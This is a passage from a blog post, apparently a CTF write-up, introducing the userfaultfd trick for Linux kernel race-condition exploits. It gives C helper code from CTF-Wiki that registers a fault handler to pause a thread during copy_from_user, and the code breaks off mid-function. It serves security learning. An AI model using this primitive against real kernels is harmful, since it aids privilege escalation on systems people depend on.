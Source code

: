 ```yaml
---
title: "Introduction of Kernel Exploitations: userfaultfd"
date: 2022-05-20 18:52:21
tags: 
layout: default
---
```


# 0x00 Prologue
I only have little experience with kernel pwn. During the `Intro_to_OS` course, I read a lot of kernel code of `xv6` and learned the kernel systematically. Although `xv6` is a simple system while the `Linux` kernel is much more complex, the knowledge from `xv6` learned helps a lot.

This post would not go too deep into the kernel because I am too weak to do that and I got all the solution ideas from `CTF-wiki`. You can also download the attachments at this [link][1]

# 0x01 userfaultfd

It's a common trick used in kernel race condition exploitation. In general, it allows us to pause a thread so that it could be easier to trigger race condition.

More specifically, we use `userfaultfd` to create a handler for a specific page. In exploitation cases, the `copy_from_user` may trigger handler so that we have the ability to pause a thread.

I use the module from CTF-Wiki: 
```c
void RegisterUserfault(void *fault_page,void *handler)
{
    pthread_t thr;
    struct uffdio_api ua;
    struct uffdio_register ur;
    uint64_t uffd  = syscall(__NR_userfaultfd, O_CLOEXEC | O_NONBLOCK);
    ua.api = UFFD_API;
    ua.features = 0;
    if (ioctl(uffd, UFFDIO_API, &ua) == -1)
        Panic("ioctl-UFFDIO_API");

    ur.range.start = (unsigned long)fault_page; 
    ur.range.len   = PAGE_SIZE;
    ur.mode        = UFFDIO_REGISTER_MODE_MISSING;
    if (ioctl(uffd, UFFDIO_REGISTER, &ur) == -1) 
        Panic("ioctl-UFFDIO_REGISTER");

    int s = pthread_create(&thr, NULL,handler, (void*)uffd);

    if (s!=0)
        Panic("pthread_create");
}
void* userfaultfd_leak_handler(void* arg)
{
    struct uffd_msg msg;
    unsigned long uffd = (unsigned long) arg;
    struct pollfd pollfd;
    int nready;
    pollfd.fd = uffd;
    pollfd.events = POLLIN;
    
    nready = poll(&pollfd, 1, -1);
    sleep(3);
    if (nready != 1)
    {
        Panic("Wrong poll return val");
```

[1]: https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/kernel
[2]: https://ctf-wiki.org/pwn/linux/kernel-mode/exploitation/userfaultfd/